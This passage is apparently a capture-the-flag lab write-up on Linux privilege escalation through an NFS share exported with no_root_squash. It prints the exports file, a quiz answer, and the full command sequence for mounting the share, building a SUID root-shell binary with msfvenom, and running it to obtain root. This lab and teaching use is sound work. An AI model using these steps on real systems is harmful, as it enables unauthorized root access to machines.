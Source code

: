 
##  NFS

- View the `/etc/exports` file.
- We can see **no_root_squash**

```bash
user@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```

### What is the name of the option that disables root squashing?
- **Answer:** no_root_squash

- Mount and insert some malicious SUID binary as root user.

```bash
root@kali:~# mkdir /mnt/privescnfs
root@kali:~# mount -o rw,vers=2 10.10.95.239:/tmp /mnt/privescnfs/
root@kali:~# cd /mnt/privescnfs/
root@kali:/mnt/privescnfs# ls
backup.tar.gz  libcrypt.so.1  preload.so  rootbash  root.pm  useless
root@kali:/mnt/privescnfs# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of elf file: 132 bytes
Saved as: shell.elf
root@kali:/mnt/privescnfs# chmod +xs shell.elf
```

- Gaining root access on the target machine:

```bash
user@debian:~$ /tmp/shell.elf
bash-4.1# whoami
root
bash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

---